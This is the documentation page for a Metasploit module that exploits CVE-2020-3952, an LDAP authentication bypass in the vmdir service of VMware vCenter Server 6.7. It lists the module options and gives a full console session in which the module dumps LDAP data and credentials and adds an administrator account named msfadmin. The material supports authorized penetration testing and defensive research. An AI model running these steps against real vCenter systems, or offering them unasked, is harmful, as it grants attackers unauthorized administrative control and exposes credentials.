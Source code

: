 ## Vulnerable Application

### Description

This module bypasses LDAP authentication in VMware vCenter Server's
vmdir service to add an arbitrary administrator user. Version 6.7
prior to the 6.7U3f update is vulnerable, only if upgraded from a
previous release line, such as 6.0 or 6.5.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Add

Add an admin user to the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### USERNAME

Set this to the username for the new admin user.

### PASSWORD

Set this to the password for the new admin user.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi

```
msf5 > use auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   BASE_DN                    no        LDAP base DN if you already have it
   PASSWORD                   no        Password of admin user to add
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     636              yes       The target port
   SSL       true             no        Enable SSL on the LDAP connection
   USERNAME                   no        Username of admin user to add


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set username msfadmin
username => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set password msfadmin
password => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against [redacted]

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:636
[+] [redacted]:636 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002255_default_[redacted]_VMwarevCenterS_975097.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[+] Credentials found: [redacted]
[snip]
[*] Bypassing LDAP auth in vmdir service at [redacted]:636
[*] Adding admin user msfadmin with password msfadmin
[+] Added user msfadmin, so auth bypass was successful!
[+] Added user msfadmin to admin group
[*] Auxiliary module execution completed
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) >
```

